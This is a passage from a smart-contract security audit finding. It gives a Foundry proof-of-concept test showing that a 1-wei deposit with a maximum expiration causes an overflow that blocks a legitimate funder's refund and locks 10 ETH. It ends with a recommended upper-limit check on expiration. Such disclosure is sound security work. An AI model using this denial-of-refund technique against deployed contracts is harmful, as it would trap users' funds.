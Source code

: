 ```solidity

    function test_preventRefund() public {
        uint256 legit_funder_expire = 100; // expire in 100 seconds
        uint256 legit_funder_deposit_amount = 10 ether; // 10 ETH will be used for funding

        // Fund bounty with 10e18 MATIC by legit funder
        address legit_funder = vm.addr(0x1337);
        vm.deal(legit_funder, 10 ether);
        bytes32 legit_funder_deposit_id = generateDepositId();
        vm.prank(legit_funder);
        fundBountyToken(10 ether, legit_funder_expire);

        // Validate bounty has successfully received 10 ETH legit funds
        assertEq(address(bountyAddress).balance, legit_funder_deposit_amount);

        // hacker funds 1 WEI of MATIC
        fundBountyToken(1, type(uint256).max);

        // go 100 seconds into the future
        skip(legit_funder_expire);

        // 100 seconds have passed, Attempt to refund legit deposit
        // Transaction will revert. Legit funder funds are locked. 
        vm.prank(legit_funder);
        vm.expectRevert(stdError.arithmeticError); // Expect overflow error
        DEPOSIT_MANAGER.refundDeposit(address(bountyAddress), legit_funder_deposit_id);  

        // validate funds are still in bounty contract 
        assertEq(address(bountyAddress).balance, legit_funder_deposit_amount + 1);
    }
}
```
6. Execute `forge test -m test_preventRefund --fork-url=http://127.0.0.1:8545 `

## Tool used

VS Code, Foundry
Manual Review

## Recommendation

Consider setting an upper limit check in the `receiveFunds` and `receiveNft` to `type(uint64).max` which should be more then enough:
```solidity
        require(_expiration <= type(uint64).max, "Expiration to large");
```